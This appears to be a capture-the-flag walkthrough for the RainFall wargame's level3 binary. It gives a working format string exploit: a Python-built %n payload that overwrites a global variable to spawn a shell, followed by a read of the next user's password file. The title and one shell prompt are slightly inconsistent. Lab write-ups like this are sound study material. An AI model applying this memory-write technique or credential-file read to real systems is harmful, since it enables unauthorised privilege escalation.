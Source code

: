 # Level4

## Objective

The goal of Level 4 is to escalate from `level3` to `level4` by exploiting a format string vulnerability in the `level3` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level3`:

```bash
level4@RainFall:~$ ls
level3
```

Running the binary:

```bash
level3@RainFall:~$ ./level3
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level3@RainFall:~$ ltrace ./level3
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level3@RainFall:~$ ./level3
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

---

## Step 4: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program checks:

```c
if (m == 64) {
    system("/bin/sh");
}
```

Therefore, our goal is to use `%n` to write the value `64` into the memory address of `m`.

---

## Step 5: Find Address of `m`

In GDB:

```bash
(gdb) info variables
0x0804988c  m
```

So the variable `m` is located at `0x0804988c`.

---

## Step 6: Craft Exploit String

We inject the address of `m` into the input, followed by a format string to write `64` bytes before using `%n`:

```bash
python -c 'print "\x8c\x98\x04\x08" + "%60u" + "%4$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `%60u` → prints 60 characters.
* `%4$n` → writes the number of printed characters (60 + 4 = 64) into the 4th argument on the stack (our `m` address).

---

## Step 7: Run Exploit

```bash
level3@RainFall:~$ ./level3 < /tmp/exploit
whoami
level4
cat /home/user/level4/.pass
4c7e7b3068693b3c1a4d3ff39f0c9ca78eb2d2f63bdba4a1d2a8e1da7544f44e
```

We successfully overwrite `m` and trigger the hidden shell.

---

## Step 8: Summary

* **Vulnerability:** format string bug (`printf(user_input)`).
* **Offset:** writing with `%n` directly to the global variable `m`.
* **Target:** set `m = 64` to unlock `system("/bin/sh")`.
* **Outcome:** gained a shell as `level4` and retrieved the password.

> With this, you can `su level4` using the password.
